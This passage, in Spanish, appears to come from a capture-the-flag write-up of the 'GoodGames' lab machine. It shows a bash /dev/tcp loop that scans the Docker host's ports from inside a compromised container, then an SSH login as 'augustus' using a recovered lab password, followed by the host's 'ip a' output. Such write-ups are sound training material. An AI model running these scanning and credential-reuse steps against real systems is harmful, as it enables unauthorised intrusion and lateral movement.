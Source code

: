 Vamos a enumerar los puertos abiertos de la máquina desde dentro, vamos a tener que hacerlo manual, para ello enviaremos una cadena vacía al /dev/tpc/ipmaquinavictima, si el resultado es exitoso sabemos que está abierto sino estará cerrado:
```
root@3a453ab39d3d:/backend# for port in $(seq 1 1000);do (echo '' > /dev/tcp/172.19.0.1/$port) 2>/dev/null && echo "puerto $port abierto";done
```
En este caso utilizamos la 172.19.0.1 pues será la máquina víctima real, y mediante el operador and vemos si el puerto está abierto o no, esto lo hacemos para los primeros 1000.

El resultado es:
```
root@3a453ab39d3d:/backend# for port in $(seq 1 1000);do (echo '' > /dev/tcp/172.19.0.1/$port) 2>/dev/null&& echo "puerto $port abierto";done
<ort) 2>/dev/null&& echo "puerto $port abierto";done
puerto 22 abierto
puerto 80 abierto
```

Vemos que la máquina tiene el puerto 22 abierto, esto no lo podíamos ver desde fuera, vamos a intentar conectarnos por ssh utilizando la credencial que encontramos:
```
ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: superadministrator

Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ ifconfig
ifconfig
-bash: ifconfig: command not found
augustus@GoodGames:~$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:f5:13 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.130/24 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:f513/64 scope global dynamic mngtmpaddr 
       valid_lft 86395sec preferred_lft 14395sec
    inet6 fe80::250:56ff:feb9:f513/64 scope link 
       valid_lft forever preferred_lft forever
3: br-99993f3f3b6b: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:53:4f:28:c4 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.1/16 brd 172.19.255.255 scope global br-99993f3f3b6b
       valid_lft forever preferred_lft forever
    inet6 fe80::42:53ff:fe4f:28c4/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
```